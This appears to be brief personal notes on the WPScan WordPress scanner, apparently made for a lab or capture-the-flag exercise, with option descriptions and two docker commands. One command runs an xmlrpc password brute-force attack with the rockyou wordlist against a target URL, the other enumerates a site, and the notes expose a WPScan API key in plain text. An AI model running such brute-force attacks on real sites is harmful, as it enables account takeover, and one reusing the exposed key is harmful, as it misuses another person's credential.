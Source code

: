 wpscan
#######

API-key: blPXlsXJT94Y9MjEWSktsB72jBbIzaRE1XUCu0746lc

wpscan –hh help

–api-token to use the wpvuln online database

–enumerate to use a specific mod, otherwise all are scanned.

Examples:

**Password brute force** docker run –mount
type=bind,source=/home/jjamieso/Downloads,target=/root,readonly -it –rm
wpscanteam/wpscan  –password-attack xmlrpc -t 20 -U roger -P
/root/rockyou.txt –url http://94.237.62.247:58618

**Enumeration** docker run -it –rm wpscanteam/wpscan  –url
http://94.237.62.154:58093 –enumerate –api-token
blPXlsXJT94Y9MjEWSktsB72jBbIzaRE1XUCu0746l
